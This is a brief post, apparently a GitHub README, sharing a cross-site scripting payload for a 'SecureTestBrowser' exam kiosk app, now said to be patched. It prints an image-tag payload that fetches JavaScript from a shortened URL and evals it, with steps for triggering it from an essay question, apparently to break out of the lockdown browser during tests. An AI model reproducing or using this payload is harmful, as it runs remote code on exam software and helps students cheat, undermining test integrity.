 # [PATCHED] Insecure Test Browser
> This got patched February 28, and no alterative methods have been found so far.

XSS in SecureTestBrowser kiosk app (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/securexss").then(r => r.text()).then(eval);'>
```
Steps:
1. Go to any essay question type the code above
2. Switch to a multiple choice question
3. Change your answer back and forth until the code executes
